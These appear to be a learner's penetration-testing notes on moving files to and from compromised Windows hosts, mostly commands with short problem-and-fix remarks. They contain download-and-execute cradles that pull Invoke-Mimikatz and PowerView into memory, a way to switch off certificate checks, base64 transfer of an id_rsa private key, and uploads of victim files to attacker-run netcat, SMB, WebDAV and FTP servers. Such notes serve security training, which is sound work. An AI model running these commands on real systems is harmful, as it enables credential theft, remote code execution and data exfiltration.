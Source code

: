 
![[Pasted image 20250216110749.png]]

### PowerShell Base64 Encode & Decode

1. md5sum: https://man7.org/linux/man-pages/man1/md5sum.1.html (make sure hash is the same before and after encoding and decoding)
2. Get-FileHash (md5sum for Windows): https://learn.microsoft.com/en-us/powershell/module/microsoft.powershell.utility/get-filehash?view=powershell-7.5&viewFallbackFrom=powershell-7.2
```shell-session
cat id_rsa |base64 -w 0;echo
```
```powershell-session
[IO.File]::WriteAllBytes("C:\Users\Public\id_rsa", [Convert]::FromBase64String("..."))
```
If we have access to a terminal, we can encode a file to a base64 string, copy its contents from the terminal and perform the reverse operation, decoding the file in the original connect.

Problem: cmd.exe has a maximum string length of 8,191 characters. Also, a web shell may error when sending extremely large strings.


### PowerShell Web Downloads

(System.Net.WebClient) used to download a file over HTTP, HTTPS or FTP: https://learn.microsoft.com/en-us/dotnet/api/system.net.webclient?view=net-5.0

![[Pasted image 20250216112318.png]]
```powershell-session
# Example: (New-Object Net.WebClient).DownloadFileAsync('<Target File URL>','<Output File Name>')
```
(New-Object Net.WebClient).DownloadFile('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1','C:\Users\Public\Downloads\PowerView.ps1')

### Fileless Method

DownloadString + Invoke-Expression (https://learn.microsoft.com/en-us/powershell/module/microsoft.powershell.utility/invoke-expression?view=powershell-7.5&viewFallbackFrom=powershell-7.2)

```powershell-session
IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1')
```
or
```powershell-session
(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1') | IEX
```

Invoke-WebRequest (aliases: iwr, curlr, wget):

```powershell-session
Invoke-WebRequest https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1 -OutFile PowerView.ps1
```

Download cradles: https://gist.github.com/HarmJ0y/bb48307ffa663256e239

Problem: Internet Explorer may not be set up, so it won't download.

Solution: use -UseBasicParsing
```powershell-session
Invoke-WebRequest https://<ip>/PowerView.ps1 -UseBasicParsing | IEX
```

Problem: certificate not trusted
Solution:
```powershell-session
[System.Net.ServicePointManager]::ServerCertificateValidationCallback = {$true}
```

### SMB Downloads

Create SMB server on host with smbserver.py: https://github.com/fortra/impacket/blob/master/examples/smbserver.py
```shell-session
sudo impacket-smbserver share -smb2support /tmp/smbshare
```

To download to target:
- copy
- move
- Copy-Item
```cmd-session
copy \\192.168.220.133\share\nc.exe
```

Problem: network does not allow unauthenticated guest access

Solution: set up username/password on smbserver and mount on target machine

```shell-session
sudo impacket-smbserver share -smb2support /tmp/smbshare -user test -password test
```
```cmd-session
net use n: \\192.168.220.133\share /user:test test
```

### FTP Downloads

Create FTP server on host with pyftpdlib: 
```shell-session
sudo pip3 install pyftpdlib
```
```shell-session
sudo python3 -m pyftpdlib --port 21
```

```powershell-session
(New-Object Net.WebClient).DownloadFile('ftp://192.168.49.128/file.txt', 'C:\Users\Public\ftp-file.txt')
```

If we do not have an interactive shell, we can use FTP to download a file for us.
![[Pasted image 20250216114249.png]]


### Uploading Operations

Encode Based64 String in Windows
```powershell-session
[Convert]::ToBase64String((Get-Content -path "C:\Windows\system32\drivers\etc\hosts" -Encoding byte))
```
```powershell-session
Get-FileHash "C:\Windows\system32\drivers\etc\hosts" -Algorithm MD5 | select Hash
```

Decode Base64 String in Linux
```shell-session
echo ... | base64 -d > hosts
```
```shell-session
md5sum hosts
```


#### PowerShell Web Uploads

Installing a Configured WebServer with Upload
```shell-session
pip3 install uploadserver
```
```shell-session
python3 -m uploadserver
```

Use PSUpload.ps1 which uses Invoke-RestMethod to perform upload operations: https://github.com/juliourena/plaintext/blob/master/Powershell/PSUpload.ps1
```powershell-session
IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/juliourena/plaintext/master/Powershell/PSUpload.ps1')
```
```powershell-session
Invoke-FileUpload -Uri http://192.168.49.128:8000/upload -File C:\Windows\System32\drivers\etc\hosts
```

#### PowerShell Base64 Web Upload

Invoke-WebRequest or Invoke-RestMethod together with Netcat

Netcat listens and send file as a POST request

```powershell-session
$b64 = [System.convert]::ToBase64String((Get-Content -Path 'C:\Windows\System32\drivers\etc\hosts' -Encoding Byte))
```
```powershell-session
Invoke-WebRequest -Uri http://192.168.49.128:8000/ -Method POST -Body $b64
```
```shell-session
nc -lvnp 8000
```
```shell-session
echo <base64> | base64 -d -w 0 > hosts
```

#### SMB Uploads

SMB is usually blocked, so we instead can do SMB over HTTP with WebDav server.

```shell-session
sudo pip3 install wsgidav cheroot
```
```shell-session
sudo wsgidav --host=0.0.0.0 --port=80 --root=/tmp --auth=anonymous
```
Connect on target:
```cmd-session
dir \\192.168.49.128\DavWWWRoot
```
```cmd-session
copy C:\Users\john\Desktop\SourceCode.zip \\192.168.49.129\DavWWWRoot\
```
```cmd-session
copy C:\Users\john\Desktop\SourceCode.zip \\192.168.49.129\sharefolder\
```

If SMB is not blocked, we can use impacket-smbserver.


#### FTP Uploads

```shell-session
sudo python3 -m pyftpdlib --port 21 --write
```
```powershell-session
(New-Object Net.WebClient).UploadFile('ftp://192.168.49.128/ftp-hosts', 'C:\Windows\System32\drivers\etc\hosts')
```
![[Pasted image 20250216115759.png]]

